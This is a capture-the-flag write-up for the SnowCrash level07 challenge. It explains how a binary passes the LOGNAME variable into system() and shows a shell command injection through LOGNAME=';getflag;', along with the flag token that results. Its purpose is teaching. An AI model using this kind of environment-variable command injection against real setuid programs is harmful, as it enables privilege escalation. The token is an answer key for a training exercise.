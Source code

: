 ### Exploit

For this level, we find a binary file `level07`. As we execute it, it simply prints "level07" out. It does so because in fact, it prints the value the environment variable "$LOGNAME" is set to. Not convinced yet?
```
    level07@SnowCrash:~$ env
    [...]
    LOGNAME=level07
    [...]
    level07@SnowCrash:~$ export LOGNAME="flag07"
    level07@SnowCrash:~$ ./level07
    flag07
```
Thankfully, the executable also call the function `system` which, remember, executes a shell command. [asprintf](http://man7.org/linux/man-pages/man3/asprintf.3.html) copies the logname with the echo command into a buffer, which is then executed.

```
    level07@SnowCrash:~$ export LOGNAME=";getflag;"
    level07@SnowCrash:~$ ./level07

    Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

Wow-oh, we're halfway the-re.
